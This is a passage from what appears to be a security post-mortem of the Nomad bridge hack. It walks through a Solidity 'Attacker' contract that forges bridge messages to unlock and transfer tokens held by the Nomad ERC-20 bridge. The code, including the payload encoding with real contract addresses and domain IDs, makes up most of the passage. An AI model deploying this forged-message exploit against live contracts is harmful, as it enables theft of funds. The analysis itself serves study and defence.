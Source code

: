 ```
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```

<div align=center>


Snippet 3: The start of our attack contract, view [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Let’s begin by creating our Attacker contract. The entry point to our contract will be the `attack` function, which is as simple as a for loop going through various different token addresses. We check `ERC20_BRIDGE`’s balance of the specific token that we’re dealing with. This is the address of the Nomad ERC-20 bridge contract, which holds the locked funds on Ethereum.

After that, the malicious message payload is generated. The parameters that will change in each loop iteration are the token address and the amount of funds to be transferred. The generated message will be the input to the `IReplica.process` function. As we already established, this function will forward the encoded message to the right end contract on the Nomad protocol to bring the unlock and transferring request to fruition, effectively tricking the bridge logic.

```
contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
```